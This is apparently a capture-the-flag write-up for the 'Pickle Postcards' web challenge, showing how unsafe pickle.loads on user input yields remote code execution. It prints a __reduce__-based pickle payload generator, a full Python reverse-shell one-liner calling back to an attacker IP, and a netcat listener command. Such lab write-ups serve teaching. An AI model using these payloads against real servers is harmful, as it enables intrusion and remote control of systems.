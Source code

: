 ```yaml
---
title: "Pickle Postcards (web easy)"
date: 2023-03-17T17:03:49-08:00
tags: ["pickle", "reverse shell", "python", "web"]
---
```


### Basic python pickle challenge
#### S2G web Pickle Postcards

Exploiting pythons \__reduce__ to create a payload that when loaded on the server gives us a reverse shell.
 <!--more-->

This was one of the more interesting challenges of the S2G web CTF 2023, mainly because I hadn't solved a pickle challenge during a ctf before, but this time my teammate managed to do it. This writeup will explain the practical ways of approaching this fairly straight forward challenge. If you are looking for more detailed explanations as well I would recommend finding a different writeup, or using this alongside the python documentation and other material. 

{{%attachments title="Related files" /%}}

We were given the source code of the application (above), with the interesting file being app.py. Opening up the website it looks like this:

![website](./images/website.png "website")

It is clearly a pickle challenge, so lets look at what the code does. The most interresting snippets in app.py are:

```py
@app.route('/', methods=['GET', 'POST'])
def index():
  data = str(request.args.get("data", ""))

  # Load/Deserialize postcard data
  if request.method == "GET" and data:
    
    deserialized_postcard = deserialize(data)
```

and

```py
def deserialize(serialized):
postcard = pickle.loads(base64.b64decode(serialized))
return postcard
```

A pickle challenge really can't get much more straight forward. It is more common to use pickle.loads for interpreting cookies, but this will simply take whatever data we send to the "/" endpoint and execute pickle.loads on it after base64 decoding it.

Pickle challenges relies on the \__reduce__ method on a python object. The following code is a good template for creating our own pickle payload:

```py
import pickle
import os
from base64 import b64encode, b64decode

COMMAND = '''
<insert command here>
'''

class Evil(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
print(evil_token)

#server runs pickle.loads(base64,b64decode(evil_token)) 
```

Sending the result of this script to the server will give us RCE of whatever we insert as the command. We could theoretically have it read flag.txt and return an object that could be printed on the website, but we can also just create a reverse shell if we have a public IP available. A great tool for creating reverse shells is https://www.revshells.com/. It is safest to use a python reverse shell as we know for sure that the webserver is running python.

The reverse shell generator gives us the command `export RHOST="<insert public ip here>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`. Placing this in the COMMAND field above and running the pickle payload generator gives the following output:

![payload](./images/payload.png "payload")

Sending this to the server shoudl make it run the provided command, so all we have to do now is listen on the correct port on the machine with the public IP and send the payload to the server through the "Enter saved postcard data" field on the website.
We listen with `nc -lvp <port>` and get a shell on the webserver. Then all that's left is reading the flag.

![getting shell](./images/flag.png "getting shell")
